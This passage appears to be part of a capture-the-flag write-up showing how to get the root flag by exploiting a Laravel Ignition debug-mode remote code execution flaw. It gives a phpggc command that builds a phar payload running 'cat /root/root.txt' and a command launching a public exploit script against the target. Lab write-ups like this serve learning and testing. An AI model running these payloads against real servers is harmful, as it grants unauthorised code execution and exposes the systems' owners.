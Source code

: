 ![](images/Pasted%20image%2020210913165249.png)

Researching Laravel debugging vulnerabilities yields the following [blog post](https://www.ambionics.io/blog/laravel-debug-rce) and [Github repository](https://github.com/ambionics/laravel-exploits).

### Exploitation

Clone the repository and the [repository for PHPGGC](https://github.com/ambionics/phpggc). On the attacker machine, generate the payload for the exploit.

```bash
php -d'phar.readonly=0' /opt/phpggc/phpggc --phar phar -o root-flag.phar --fast-destruct monolog/rce1 system 'cat /root/root.txt'
```

Launch the exploit from the Github repository to read the `root` flag.

```bash
python3 laravel-exploits/laravel-ignition-rce.py http://localhost:8000 root-flag.phar
```

